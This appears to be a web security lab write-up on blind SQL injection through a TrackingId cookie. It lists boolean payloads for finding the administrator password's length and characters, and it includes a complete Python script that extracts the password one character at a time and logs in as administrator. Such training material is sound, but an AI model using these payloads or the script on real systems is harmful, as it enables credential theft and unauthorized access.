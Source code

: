 ```yaml
---
title: 'SQLi Lab 11'
description: 'Blind SQL injection for extracting administrator password via conditional responses'
---
```



## Blind SQL injection with conditional responses

<div style="text-align: justify;">
  This lab demonstrates exploiting a blind SQL injection (SQLi) vulnerability via a tracking cookie. The application does not return query results or errors, but includes a "Welcome back" message if the SQL query returns any rows. By modifying the `TrackingId` cookie and testing boolean conditions, we can infer the presence of tables, users, password length, and ultimately extract each character of the administrator password.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- Modify the `TrackingId` cookie to test boolean conditions:
  - `' AND '1'='1` → condition true, Welcome back message appears.
  - `' AND '1'='2` → condition false, Welcome back message disappears.
- Confirm existence of the `users` table and `administrator` user using subqueries.
- Determine password length by sending sequential conditions:
  - `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>N)='a`
- Extract password character-by-character using `SUBSTRING` in the cookie:
  - `' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`
- Iterate each position until the full password is reconstructed.
- Login as administrator using the extracted password.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy (optional, comment out if not needed)
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """Check if Burp Suite proxy is running."""
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def get_initial_cookies(url):
    """Fetch initial cookies from the application (TrackingId + session)."""
    res = requests.get(url, verify=False, proxies=proxies, timeout=10)
    res.raise_for_status()
    cookies = res.cookies.get_dict()

    if "TrackingId" not in cookies or "session" not in cookies:
        print("[-] Could not fetch TrackingId or session cookie.")
        sys.exit(1)

    print(f"[*] Got TrackingId={cookies['TrackingId']} and session={cookies['session']}")
    return cookies

def send_injection(url, cookies, payload):
    """Send SQLi payload appended to TrackingId cookie and check response."""
    injection = cookies["TrackingId"] + payload
    injected_cookies = {
        "TrackingId": injection,
        "session": cookies["session"]
    }
    res = requests.get(url, cookies=injected_cookies, verify=False, proxies=proxies, timeout=10)
    res.raise_for_status()
    return "Welcome back!" in res.text

def extract_password(url, cookies, max_len=20):
    """Extract administrator password character by character."""
    charset = "abcdefghijklmnopqrstuvwxyz0123456789"
    password = ""

    print("[*] Extracting password...")

    for i in range(1, max_len + 1):
        found = False
        for c in charset:
            payload = f"' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),{i},1)='{c}"
            if send_injection(url, cookies, payload):
                password += c
                print(f"[+] Found character {i}: {c} -> {password}")
                found = True
                break
        if not found:
            print(f"[-] No match found for position {i}. Stopping...")
            break

    return password

def login(url, username, password):
    """Log in using CSRF token and credentials, then check if lab solved."""
    login_url = url.rstrip("/") + "/login"
    session = requests.Session()

    res = session.get(login_url, verify=False, proxies=proxies)
    res.raise_for_status()
    soup = BeautifulSoup(res.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]

    data = {
        "csrf": csrf_token,
        "username": username,
        "password": password
    }
    res = session.post(login_url, data=data, verify=False, proxies=proxies)
    res.raise_for_status()

    if "Log out" in res.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")
        base_res = session.get(url, verify=False, proxies=proxies)
        base_res.raise_for_status()

        if "Congratulations" in base_res.text:
            print("[+] Lab solved! 🎉")
            return True
        else:
            print("[-] Logged in but lab not solved yet.")
            return False
    else:
        print("[-] Login failed.")
        return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()
    check_burp()

    # Step 1: Get real cookies
    cookies = get_initial_cookies(url)

    # Step 2: Extract administrator password
    password = extract_password(url, cookies, max_len=20)

    if not password:
        print("[-] Failed to extract password!")
        sys.exit(1)

    print(f"[*] Extracted password for administrator: {password}")

    # Step 3: Try to login
    login(url, "administrator", password)

if __name__ == "__main__":
    main()
```